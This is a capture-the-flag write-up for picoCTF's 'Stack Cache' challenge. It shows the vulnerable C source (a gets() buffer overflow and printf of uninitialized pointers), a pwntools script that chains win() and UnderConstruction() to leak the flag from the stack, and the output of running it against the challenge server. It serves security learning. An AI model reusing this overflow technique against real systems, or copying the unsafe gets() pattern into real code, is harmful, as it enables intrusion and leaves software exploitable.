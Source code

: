 ### stack cache

Download the files and run `file vuln`.

```bash
➜  Stack Cache git:(main) ✗ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=a6f5a5dc67a64d6f276855a06f3333ee1d4bc3d8, for GNU/Linux 3.2.0, not stripped
```

We see that this binary is `statically linked`, meaning we cannot perform `ret2libc` attack. 

Taking a look at the `.c`.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 16
#define FLAGSIZE 64
#define INPSIZE 10

/*
This program is compiled statically with clang-12
without any optimisations.
*/

void win() {
  char buf[FLAGSIZE];
  char filler[BUFSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
}

void UnderConstruction() {
        // this function is under construction
        char consideration[BUFSIZE];
        char *demographic, *location, *identification, *session, *votes, *dependents;
	char *p,*q, *r;
	// *p = "Enter names";
	// *q = "Name 1";
	// *r = "Name 2";
        unsigned long *age;
	printf("User information : %p %p %p %p %p %p\n",demographic, location, identification, session, votes, dependents);
	printf("Names of user: %p %p %p\n", p,q,r);
        printf("Age of user: %p\n",age);
        fflush(stdout);
}

void vuln(){
   char buf[INPSIZE];
   printf("Give me a string that gets you the flag\n");
   gets(buf);
   printf("%s\n",buf);
   return;
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  printf("Bye!");
  return 0;
}
```

There are 3 key points in this code:

* A `gets` function that leads to buffer overflow.
* A `win()` function that reads but does not print the flag.
* An `UnderConstruction()` function that prints pointers on the screen.

The pointers are not initialized so the `printf` function will print whatever seems to be on the stack this moment. We can tamper with the stack with the `win()` function to place the flag there. After that, we simply call `UnderConstruction` to print it. 

#### Solution

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')
context.arch = 'amd64'

fname = './vuln' 

LOCAL = False

if LOCAL:
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)

e = ELF(fname)

def convert_flag(flag):
  conv = ''
  for i in flag:
    try:
      conv += binascii.unhexlify(i[2:]).decode()
    except: 
      pass
  return conv

r.sendline(b'A'*14 + p32(e.sym.win) + p32(e.sym.UnderConstruction))

# Split flag in 3 parts
r.recvuntil('information : ')
flag1 = r.recvline()[:-1].decode().split(' ')
r.recvuntil('Names of user: ')
flag2 = r.recvline()[:-1].decode().split(' ')
r.recvuntil('Age of user: ')
flag3 = r.recvline()[:-1].decode().split(' ')

# Convert them to ASCII
flag  = convert_flag(flag1)
flag += convert_flag(flag2)
flag += convert_flag(flag3)

print(f'\nFlag --> {flag[::-1]}}}\n')
```

```bash
➜  Stack Cache git:(main) ✗ python solver.py saturn.picoctf.net 54493
[+] Opening connection to saturn.picoctf.net on port 54493: Done
[*] '/home/w3th4nds/github/Pico-CTF-Practice/Binary-Exploitation/Stack Cache/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

Flag --> picoCTF{XXX}

[*] Closed connection to saturn.picoctf.net port 54493
```
